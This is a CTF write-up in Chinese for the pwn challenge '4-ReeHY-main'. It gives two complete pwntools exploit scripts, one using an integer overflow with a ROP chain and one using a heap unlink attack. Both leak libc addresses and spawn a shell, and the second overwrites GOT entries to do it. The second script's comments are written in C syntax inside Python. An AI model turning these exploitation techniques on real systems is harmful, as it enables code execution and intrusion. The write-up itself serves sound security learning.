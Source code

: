 ﻿# 4-ReeHY-main  
这道题目有两种做法，一个是整数溢出，一个是unlink，这里主要介绍unlink。  
***
## 一、整数溢出  
程序主要分为三块主要内容，分别是创建文本，删除文本，编辑文本。首先分析create部分  
![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Heap/4-ReeHY-main/index_files/1.png)  
可以看到这里有一处明显的整数溢出，利用这一点我们可以构造ROP链泄露libc基址并执行system函数。下面是exp  
```python
from pwn import *

#p = process('./4-ReeHY-main-100')
p = remote("111.198.29.45", 31226)

elf = ELF('./4-ReeHY-main-100')
libc = elf.libc
pop_addr = 0x0000000000400DA3
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = 0x0000000000400C8C
start_addr = 0x0000000000400760
gadget_sym = 0x45216

print p.recvuntil('$ ')
p.sendline('1234')
print p.recvuntil('$ ')
p.sendline('1')
print p.recvuntil('Input size\n')
p.sendline('-1')
print p.recvuntil('Input cun\n')
p.sendline('1')
payload = 'a' * 0x88 + '\x00' * 8 + 'a' * 8 + p64(pop_addr) + p64(puts_got) + p64(puts_plt) + p64(start_addr)
print p.recvuntil('Input content\n')
p.sendline(payload)
data = p.recv(numb = 6)
data = data.ljust(8,'\x00')
data = u64(data)
puts_addr = data
print 'puts_addr:' + hex(data)

libc_addr = puts_addr - libc.symbols['puts']
print 'libc_addr:' + hex(libc_addr)
sys_addr = libc_addr + libc.symbols['system']
print 'sys_addr:' + hex(sys_addr)
bin_addr = libc_addr + libc.search('/bin/sh').next()
print 'bin_Addr:' + hex(bin_addr)
gadget_addr = libc_addr + gadget_sym
print 'gadget_addr:' + hex(gadget_addr)

print p.recvuntil('$ ')
p.sendline('1234')
print p.recvuntil('$ ')
p.sendline('1')
print p.recvuntil('Input size\n')
p.sendline('-1')
print p.recvuntil('Input cun\n')
p.sendline('1')
payload = 'a' * 0x88 + '\x00' * 8 + 'a' * 8 + p64(pop_addr) + p64(bin_addr) + p64(sys_addr) + p64(start_addr)
#payload = 'a' * 0x88 + '\x00' * 8 + 'a' * 8 + p64(gadget_addr)
print p.recvuntil('Input content\n')
p.sendline(payload)
p.interactive()
```
***
## 二、unlink  
分析代码可以看到在delete删除文本的时候，在free掉堆块之后并没有清除掉地址数组里的指针   
![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Heap/4-ReeHY-main/index_files/2.png)  
于是我们的整个攻击流程就基本确定下来了，就是先create两个smallbin大小的堆块并释放，使smallbin中有空闲堆块。然后重新申请较大的堆块，伪造堆块并进行unlink攻击。这里我们可以先将一个指针改为可以修改的任意指针，这样我们就可以很方便的多次对任意位置写了。最后我们将free函数先改为puts函数泄露libc基址，然后再将其改为system函数getshell。当然这里面还有很多需要注意的细节，这些会在exp中提到   
```python
from pwn import *

context.log_level = True

p = process('./4-ReeHY-main-100')
#p = remote('111.198.29.45', 55988)
elf = ELF('4-ReeHY-main-100')
libc = elf.libc
#gdb.attach(p, 'b* 0x400aa5')

puts_plt = elf.plt['puts']
free_got = elf.got['free']
puts_got = elf.got['puts']


def create(size, cun, content):
    print p.recvuntil('$')
    p.sendline('1')
    print p.recvuntil('Input size\n')
    p.sendline(str(size))
    print p.recvuntil('Input cun\n')
    p.sendline(str(cun))
    print p.recvuntil('Input content\n')
    p.sendline(content)

def dele(cun):
    print p.recvuntil('$')
    p.sendline('2')
    print p.recvuntil('Chose one to dele\n')
    p.sendline(str(cun))

def edit(cun, content):
    print p.recvuntil('$')
    p.sendline('3')
    print p.recvuntil('Chose one to edit\n')
    p.sendline(str(cun))
    print p.recvuntil('Input the content\n')
    p.sendline(content)

def edit2(cun, content):
    print p.recvuntil('$')
    p.sendline('3')
    print p.recvuntil('Chose one to edit\n')
    p.sendline(str(cun))
    print p.recvuntil('Input the content\n')
    p.send(content)


print p.recvuntil('$')
p.sendline('b0m13')

/*先创建好“/bin/sh”字符串以待后面使用*/
create(0x20, 4, '/bin/sh')
create(0x100, 0, 'chunk0')    #size要大于0x80，否则会将空闲堆块加入到fastbin中
create(0x100, 1, 'chunk1')

/*获得smallbin中的空闲堆块*/
dele(0)
dele(1)

/*构造伪装堆块，将一个指针改为可以修改的任意指针，注意这里只有这个可以，因为还有标志位要考虑进来*/
payload1 = p64(0) + p64(0x100) + p64(0x6020e8) + p64(0x602100 - 0x10) + 'a' * (0x100 - 32) + p64(0x100) + p64(0x110)
create(0x210, 2, payload1)

/*unlink攻击*/
dele(1)

/*覆盖free为puts*/
payload2 = p64(0) + p64(puts_got) + p64(1) + p64(free_got) + p64(1)
edit(2, payload2)

/*注意这里'\n'会覆盖后面的got表项，所以要把'\n'去掉*/
edit2(2, p64(puts_plt))

dele(1)

puts_addr = u64(p.recv(6) + '\x00' * 2)
print 'puts_addr:' + hex(puts_addr)

libc_addr = puts_addr - libc.symbols['puts']
print 'libc_addr:' + hex(libc_addr)

sys_addr = libc_addr + libc.symbols['system']
print 'sys_addr:' + hex(sys_addr)

/*覆盖free为system*/
edit2(2, p64(sys_addr))

/*getshell*/
dele(4)
p.interactive()
```
